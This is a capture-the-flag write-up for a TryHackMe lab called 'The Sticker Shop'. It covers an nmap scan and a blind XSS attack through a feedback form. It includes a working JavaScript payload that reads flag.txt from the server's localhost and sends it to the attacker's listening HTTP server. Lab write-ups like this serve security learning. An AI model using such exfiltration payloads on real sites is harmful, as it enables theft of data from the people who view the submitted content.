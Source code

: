 # The Sticker Shop

https://tryhackme.com/room/thestickershop

## Nmap Scan
First and foremost, we need to use nmap scan to discover the open ports. In this lab, there are 2 open ports, `port 22` and `port 8080`. 

![Nmap Scan of the machine](images/image-1.png)


## Web App
THM prompts us to read the content in `http://10.10.12.79:8080/flag.txt`. Try typing it in the address bar. As you can see, the `401 Unauthorized` message is shown on the screen.

![Flag.txt page](images/image-2.png)

Now, try navigating to `http://10.10.12.79:8080/`. We can see the web page of the sticker shop. It has 2 pages, **Home** and **Feedback** page. 

![Home page](images/image-3.png)

Now we know that there is an input field for us to submit the customer’s feedback. Maybe we can perform some attacks here. This makes me think of XSS. We can try to perform Blind XSS on this page. 

![Feedback page](images/image-4.png)

Start a python server first. It will be listening on port 80. Use `sudo python3 -m http.server 80` as the command to develop the server. 

![Python server](images/image-5.png)

Then inject the payload in the input field. We are using `<script src='http://10.17.25.198/'></script>` as our payload. Now go back to the terminal, we can see that the server is accepting requests.

![Payload injection](images/image-6.png)

Now we need to craft a JavaScript payload that fetches the flag from the server’s localhost as they said that the sticker shop hosts everything on the same computer they use for browsing the internet and looking at customer feedback. The payload is shown as below:

```JavaScript
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<10.17.25.198:80/?flag=' + encodeURIComponent(data));
    });
</script>
```

![Payload injection 2](images/image-7.png)

After submitting the payload in the feedback form, go back to the terminal. We can see our HTTP server has captured the flag in the query string of an incoming GET request. 

![Flag captured](images/image-8.png)
